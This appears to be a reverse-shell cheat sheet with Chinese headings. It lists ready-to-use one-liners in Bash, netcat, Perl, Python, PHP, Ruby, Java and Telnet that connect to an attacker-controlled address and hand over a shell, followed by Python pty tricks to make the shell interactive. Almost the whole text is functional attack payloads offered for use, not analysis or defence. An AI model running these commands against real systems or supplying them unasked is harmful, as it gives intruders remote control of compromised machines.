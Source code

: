 
Bash反弹shell
```bash
/bin/bash -c bash -i >& /dev/tcp/x.x.x.x/12345 0>&1
```
NC反弹shell
```bash
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 12388 >/tmp/f
```
perl反弹shell
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Python反弹shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
Telnet
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
获取反弹shell后，可使用python获得交互式shell
```python
python -c'import pty; pty.spawn("/bin/bash")'
python -c '''
import pty
while(1):
    try:
        pty.spawn("/bin/bash")
    except :
        contiune'''
```        